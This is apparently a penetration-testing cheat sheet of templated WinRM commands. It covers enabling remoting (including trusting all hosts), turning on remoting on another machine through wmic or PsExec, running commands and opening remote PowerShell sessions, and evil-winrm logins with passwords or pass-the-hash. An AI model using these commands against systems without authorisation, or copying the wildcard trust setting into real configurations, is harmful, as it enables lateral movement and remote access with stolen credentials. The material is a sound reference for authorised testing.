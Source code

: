 # winrm

% windows, remote, winrm, evilwinrm, 5985, 5986
#platform/linux  #target/remote  #protocol/winrm #port/5985 #port/5986

## Enable winrm (powershell)
#platform/windows #target/local #cat/UTILS 
```powershell
Enable-PSRemoting -Force  
Set-Item wsman:\localhost\client\trustedhosts *  
```

## Enable winrm (wmic)
#platform/windows #target/local #cat/UTILS 
```batchfile
wmic /node:<REMOTE_HOST> process call create "powershell enable-psremoting -force"
```

## Test target is configure to use winrm (powershell)
#platform/windows #target/local #cat/RECON 
```powershell
Test-WSMan -computername <computername>
```

## Execute a command on the target over winrm (powershell)
#platform/windows #target/remote #cat/ATTACK/EXPLOIT   
```powershell
Invoke-Command -computername <computername> -ScriptBlock {<cmd>} -credential <domain>\<username>
```

## Execute a script on the target over winrm (powershell)
#platform/windows #target/remote #cat/ATTACK/EXPLOIT 
```powershell
Invoke-Command -ComputerName <computername> -FilePath <path_to_script> -credential <domain>\<username>
```

## Get a powershell session with winrm (powershell)
#platform/windows #target/remote #cat/ATTACK/EXPLOIT 
```powershell
Enter-PSSession -ComputerName <computername> -Credential <domain>\<username>
```

## Enable winrm remotelly from psexec
#platform/windows #target/remote #cat/ATTACK/EXPLOIT 
```batchfile
.\PsExec.exe \\<computername> -u <domain>\<username> -p <password> -h -d powershell.exe "enable-psremoting -force"  
```

## evil-winrm install
#target/local #cat/UTILS 
```
gem install evil-winrm
```

## evil-winrm use
#platform/linux  #target/remote #cat/ATTACK/CONNECT 
```
evil-winrm -i <ip>/<domain> -u <user> -p <password>
```

## evil-winrm use pass the hash
#platform/linux  #target/remote #cat/ATTACK/CONNECT 
```
evil-winrm -i <ip>/<domain> -u <user> -H <hash>
```